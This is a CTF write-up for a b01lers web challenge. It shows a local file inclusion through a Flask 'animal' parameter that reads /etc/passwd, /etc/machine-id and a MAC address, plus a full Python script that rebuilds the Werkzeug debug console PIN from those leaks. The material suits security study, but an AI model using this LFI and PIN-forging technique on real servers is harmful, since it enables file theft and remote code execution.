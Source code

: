 ### Discover : 
==> http://chal.b01lers.com:5000/?animal=dogs 
here we try to to inject our lfi payloads in the animal param : 

==> http://chal.b01lers.com:5000/?animal=/etc/passwd 
It look very promising but it only render 200 char from the file so i assume it returns f.read(200) 
anyways let's see 
==> http://chal.b01lers.com:5000/?animal=/whatever 
we get an error which reveal some interesting part 
so its 
- ## Flask APP
- ## Name : loremipsum.py 
```python
@app.route('/')
def index():
 f = request.args.get('animal', 'dogs')
 with open(f, 'r') as f:
 file\_content = f.read(200)
 ``` 
 
after this part i tried to somehow bypass the return length (the 200) but it didn't work 
the flag was +200 char and its located there 
==> http://chal.b01lers.com:5000/?animal=flag 

### Exploiting 

meanwhile i was running #dirsearch.py in the background and its showed that the debug was open but its secured with pin 
==> http://chal.b01lers.com:5000/console 
and directly i went to this 
writeup ==> https://ctftime.org/writeup/17955 
 
so i leaked => "/sys/class/net/<inet>/address"
					=> "/etc/machine-id"
and tried to remake the pin code : 
so this was my code:

```python 
	import hashlib
from itertools import chain
import hashlib
from itertools import chain
public_bits = [
    'loremipsum',# the username
    'flask.app',
    'Flask', 
    '/usr/local/lib/python3.6/dist-packages/flask/app.py' # (via the error msg)
]

private_bits = [
    '2485378547714',  # => /sys/class/net/<inet>/address
    'b875f129-5ae6-4ab1-90c0-ae07a6134578' + 'e8c9f0084a3b2b724e4f2a526d60bf0a62505f38649743b8522a8c005b8334ae' # => /etc/machine-id 
    ]

hashed = hashlib.md5()
for bit in chain(public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    hashed.update(bit)
hashed.update(b'cookiesalt')

cookie_name = '__wzd' + hashed.hexdigest()[:20]

num = None
if num is None:
    hashed.update(b'pinsalt')
    num = ('%09d' % int(hashed.hexdigest(), 16))[:9]

rezult =None
if rezult is None:
    for g_size in 5, 4, 3:
        if len(num) % g_size == 0:
            rezult = '-'.join(num[x:x + g_size].rjust(g_size, '0')
                          for x in range(0, len(num), g_size))
            break
    else:
        rezult = num

print(rezult)
	``` 
	And then just : 
	![[flag 1.png]]